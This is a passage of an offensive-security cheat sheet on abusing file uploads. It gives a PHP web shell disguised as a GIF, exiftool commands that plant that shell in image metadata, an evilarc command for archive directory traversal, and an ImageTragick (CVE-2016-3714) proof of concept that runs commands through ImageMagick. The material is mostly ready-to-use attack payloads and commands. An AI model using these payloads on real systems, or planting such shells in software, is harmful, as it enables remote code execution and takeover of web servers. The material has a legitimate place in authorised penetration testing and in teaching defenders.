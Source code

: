 ```
GIF89a;

XXX

<?php echo "<pre>"; system($_GET['cmd']); ?>
```

To inject a shell code in the `exif-data` metadata of an image, the `ExifTool`
can be used:

```
exiftool -Comment='<SHELLCODE>' <IMAGE_FILE>

# PHP example
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' <IMAGE_FILE>
```

### MISC

###### Archive directory traversal

If the web application exposes an upload functionally allowing for the upload
of archive files, the functionally may be vulnerable to archive directory
traversal.

If the uploaded archives are automatically extracted, or can be extracted
through the web application, and the library used for the extraction does not
prevent directory traversal characters in the filename of the extracted files,
then a file can be placed at an arbitrary location on the target system. If a
file can be placed on the web application root folder, then remote code execution may be
achieved.

The `evilarc` Python script can be used to generate archives that will, once
extracted, place the given file at the specified location on the target system.
By default, 8 directories will be traversed `../[x8]`.

```
python evilarc.py -o <unix | win> -p <REMOTE_FOLDER> -f <ARCHIVE_NAME> <FILE>
```

###### ImageTragick

A vulnerability, identified as `ImageTragick` / `CVE-2016–3714` in
`ImageMagick`, a library commonly used by web services to  process images, can
lead to remote code execution.

The following PoC codes can be used to exploit the vulnerability:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/whateever.jpg"|<CM"D>)'
# Example: fill 'url(https://127.0.0.0/whateever.jpg"|ping -c 2 "<IP>)'
pop graphic-context
```
